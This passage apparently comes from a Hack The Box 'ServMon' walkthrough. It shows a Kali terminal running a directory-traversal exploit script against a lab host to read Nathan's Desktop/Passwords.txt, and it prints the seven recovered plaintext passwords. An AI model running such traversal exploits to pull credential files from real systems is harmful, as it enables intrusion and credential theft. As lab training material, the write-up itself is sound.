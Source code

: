 ![Untitled](ServMon%207fb0dcf05f0a4e52a7c27a9aac6d2228/Untitled%201.png)

I got the hint from `confidentials.txt` file as Passwords.txt file save in Desktop directory of Nathan user so lets check that directory.

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/ServMon]
└─$ python3 exploit3.py 10.10.10.184 Users/Nathan/Desktop/Passwords.txt win.txt
[+] DT Attack Succeeded
[+] Saving File Content
[+] Saved
[+] File Content

++++++++++ BEGIN ++++++++++
1nsp3ctTh3Way2Mars!
Th3r34r3To0M4nyTrait0r5!
B3WithM30r4ga1n5tMe
L1k3B1gBut7s@W0rk
0nly7h3y0unGWi11F0l10w
IfH3s4b0Utg0t0H1sH0me
Gr4etN3w5w17hMySk1Pa5$
++++++++++  END  ++++++++++
```
